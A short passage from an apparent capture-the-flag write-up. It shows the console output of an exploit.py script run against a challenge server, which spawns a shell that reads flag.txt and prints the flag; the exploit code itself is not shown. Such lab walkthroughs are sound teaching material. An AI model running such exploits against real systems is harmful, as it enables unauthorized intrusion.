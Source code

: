 `cat flag.txt` is called! Let's run this against the remote server:

```nasm
$ python3 exploit.py 
[+] Opening connection to vunrotc.cole-ellis.com on port 1200: Done
[*] Switching to interactive mode
Can you figure out how to win here?
flag{not_so_different_yet_is_it}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to vunrotc.cole-ellis.com port 1200
```

And we have our flag!
